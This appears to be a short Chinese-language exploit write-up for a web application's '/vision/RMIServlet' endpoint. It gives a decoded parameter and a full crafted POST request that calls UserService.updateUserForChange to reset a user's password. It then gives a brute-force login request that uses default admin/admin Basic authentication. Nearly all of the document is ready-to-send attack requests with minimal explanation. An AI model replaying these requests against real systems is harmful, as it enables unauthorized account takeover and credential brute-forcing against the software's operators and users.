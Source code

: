 ecode 加密字段解密后为：

```
UserService+updateUserForChange+["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

等同于

```
className=UserService&methodName=updateUserForChange&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

构造数据包：

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/index.jsp
If-Modified-Since: 0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 148
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=848B4743452D02C5A53FECCA58C47299

className=UserService&methodName=updateUserForChange&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

## 登录暴破

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Linux; Android 8.0.0; PRA-LX3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/mobileX/login
content-type: application/x-www-form-urlencoded
Content-Length: 70
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=1DA1DAA51469E646F97AD829F29A2B15

className=UserService&methodName=login&params=["admin","admin"]
```
